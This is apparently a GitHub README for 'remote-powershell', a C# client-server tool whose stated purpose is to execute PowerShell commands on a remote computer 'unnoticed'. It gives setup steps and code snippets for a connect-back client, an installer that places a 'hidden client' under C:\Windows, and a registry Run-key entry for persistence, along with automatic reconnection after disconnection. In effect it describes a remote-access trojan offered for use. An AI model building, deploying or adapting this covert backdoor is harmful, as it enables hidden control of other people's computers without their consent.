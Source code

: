 # remote-powershell

It is a terminal-based application that allows you to execute commands on a remote computer in PowerShell unnoticed.

The application is divided into two main sections: client and server. And there are also special versions of sections that have additional functionality. Each of the sections and versions is briefly described below, as well as a short guide on how to set them up.

## server 

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/server)

The server folder contains all the files related to the part of the program that should be executed on the device from which the commands will be sent.

Just change the IP and Port to the one you need and run the program while waiting for connections.

```csharp
// Change IPAddress.Any (IP) and 8802 (Port) to the one you need
TcpListener tcpListener = new TcpListener(IPAddress.Any, 8802);
```

| Command           | Description                                                                  | Syntax                        | Aliases |
| ----------------- | ---------------------------------------------------------------------------- | ----------------------------- | ------- |
| execute           | Sends and executes the command you specified on the remote client's computer | execute [client-id] [command] | exec, ! |
| connection list   | Gives a list of all active remote connections                                | connection list               |         |
| connection remove | Forcibly disconnects the specified remote client from the server             | connection remove [client-id] |         |
| clear             | Clears the terminal                                                          | clear                         | clr     |
| quit              | Closes the application                                                       | quit                          | exit    |

Despite the fact that the disconnect command forcibly disconnects the remote client from the server, the automatic reconnection function in the client can still restore connections after a while.

## client

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client)

The client folder contains all the files related to the part of the program that should be executed on the device to which the commands will be sent and executed.

Just change the IP and Port to the ones you installed on the server and run the program on another device.

```csharp
string host = "127.0.0.1"; // Change 127.0.0.1 (IP) to the one you need
int port = 8802;           // Change 8802 (Port) to the one you need
```

Please note that if you use services that will help you expand your local network, you may have problems reconnecting the client back to the server after it is turned off, as the connection will remain active for the client.

## client-and-installer

[Click to view](https://github.com/shead0shead/remote-powershell/tree/main/client-and-installer)

Client-and-installer is a version of the application that, when launched, automatically installs the client on a remote computer and adds it to Windows Startup.

```csharp
// Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
if (Environment.ProcessPath != @"C:\Windows\client.exe")
{
    // Instead of "C:\Windows\client.exe" enter the path where the hidden client will be installed
    string path = @"C:\Windows\client.exe";
    ...
}
```

Сlient-and-installer automatically adds the application to Windows startup, if you want to remove it, then go to the Program.cs file in the client-and-installer folder and remove all lines from 15th to 17th.

```csharp
// Autorun code
RegistryKey registry;
registry = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
registry.SetValue("client", @"C:\Windows\client.exe");
```